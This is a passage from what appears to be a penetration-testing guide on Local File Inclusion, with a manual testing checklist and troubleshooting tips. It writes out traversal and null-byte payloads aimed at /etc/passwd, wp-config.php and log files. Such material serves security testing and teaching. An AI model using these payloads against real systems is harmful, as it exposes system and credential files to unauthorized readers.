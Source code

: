 **Step 3: Error Analysis**
```bash
# Look for error messages that reveal:
# - Full file paths
# - Web root directory
# - Application structure
# - PHP configuration details
```

### Manual Testing Checklist

```bash
# 1. Identify potential LFI parameters
- Look for file-related parameters in URLs
- Test POST parameters with file inclusion
- Check hidden form fields

# 2. Test basic LFI payloads
- Direct file access: /etc/passwd, /windows/win.ini
- Path traversal: ../../../../etc/passwd
- Different depths: test 1-10 levels of ../

# 3. Test common files
- System files: /etc/passwd, /proc/version
- Application files: config.php, wp-config.php
- Log files: access.log, error.log

# 4. Analyze application behavior
- Error messages and stack traces
- Response differences (size, timing)
- Application logic and file handling

# 5. Document findings
- Working payloads and file paths
- Accessible files and their contents
- Potential escalation paths
```

---

## LFI Troubleshooting & Common Mistakes

### Problem: No output or blank page
```bash
# Issue: LFI working but no content displayed
# Check 1: Verify file exists and is readable
ls -la /etc/passwd

# Check 2: Test different files
/proc/version    # Usually always readable
/etc/hostname    # Small file, usually readable

# Check 3: Check for null byte issues
?file=/etc/passwd%00
?file=/etc/passwd%00.php
```
